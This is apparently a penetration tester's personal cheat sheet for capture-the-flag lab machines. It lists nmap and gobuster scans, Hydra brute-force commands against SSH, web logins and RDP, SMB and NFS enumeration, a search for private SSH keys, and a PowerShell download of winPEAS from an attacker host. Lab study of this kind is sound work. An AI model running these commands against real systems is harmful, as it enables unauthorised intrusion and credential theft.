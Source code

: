 Nmap scan
nmap -sV -sC -o nmap 10.10.85.80

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


nmap vulscan
└─$ └─$ sudo nmap -sV --script vuln 10.10.10.75

gobuster dir -e -u 10.10.10.58 -x php,txt,cgi,css,py,html -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -s "204,301,307,401,403" -k -t 64 --timeout 20s



Gobuster 
gobuster dir -e -u 10.10.243.102 -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u 10.10.81.56 -w directory-list-2.3-medium.txt

wildcard related error
gobuster dir -e -u http://10.10.20.239/api/site-log.php -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt -s "204,301,302,307,401,403"


Hydra Brute force
https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
##SSH
kali@kali:~/oscptraining/tryhackme/brooklyn99$ hydra 10.10.216.12 ssh -l jake -P /usr/share/wordlists/rockyou.txt
##HTTP-POST
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
go to inspect element > network > edit and send the post request, copy referer:request body:failed message

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.246.210 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kcSMO%2FXF1GCTeqt5uRKPoYMbob7ILPmcJ8MRMGNpv2FneCHIfEXPYOSXqtxv7DNoE8I3ocTwXLS9nE%2BFsrLJiHyETHd061sGnCLUvKIZ98Tw51yIvJPBPwCnvZkSPBN1IGUjaSXna2xuK3zLhKzuJMYEMGp%2BJaP2%2FnW3KLtiHdSkJNaf&__EVENTVALIDATION=An1jltDUr%2FrJuqK%2FrWVjD8jVjSf5VMWKvH%2BRo5qQE9Qj4eGYCBTjNSWsFE5%2FEkHkpfIodOJNXbmfoUTYDVGixWMGR8Uh4t4o5X9Rt16ieHoB4SXqj2wNQW3KckOfeclwpBQJbmdFBCPS%2FdzwfeBzvm1jPbMdBiH2IFcI0iE0FX3uIkeq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

WORDPRESS
hydra -l admin -P /home/kali/seclists/Passwords/rockyou.txt 10.10.21.239 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:login_error"


LOCAL HOST
hydra -l admin -P /home/kali/seclists/Passwords/rockyou.txt 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"


Brute force against a protocol of your choice
hydra -P <wordlist> -v <ip> <protocol>

Attack a Windows Remote Desktop with a password list.
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>

Number of parallel connections per target  -t 16
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.30.60 ssh




### SMB Enum (port 445, 139)
''' 
        nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.117.251
        smbclient ///10.10.117.251/Users

        smbclient //10.10.223.79/anonymous -u anonymous 

        for no password login 
        smbclient -L \\\\10.10.178.186\\ -N 

        for copying file from local to victim
        put xxx.txt

        for downloading from victim to local
         xxx.txt

'''


### RPC Enum (port 111)
'''
sudo showmount -e 10.10.178 186 
Export list for 10.10.178.186:
/opt/conf *

Now we need to mount /opt/conf in our local directory, and for that we need to create a mount point (directory) with the name mount0.



'''

Our vulnerable machine in this example has a directory called backups containing an SSH key that we can use for authentication. This was found via: find / -name id_rsa 2> /dev/null....Let's break this down:

We're using find to search the volume, by specifying the root (/) to search for files named "id_rsa" which is the name for private SSH keys, and then using 2> /dev/null to only show matches to us.


search the machine for executables with the SUID permission set: find / -perm -u=s -type f 2>/dev/


for remote desktop
xfreerdp /u:littlehelper /p:iLove5now! /v:10.10.247.111

PowerShell Invoke-WebRequest


get winpeas in

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/oscptraining/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'

     


kali@kali:~/oscptraining$ xfreerdp /u:administrator /p:4q6XvFES7Fdxs /v:10.10.4.115





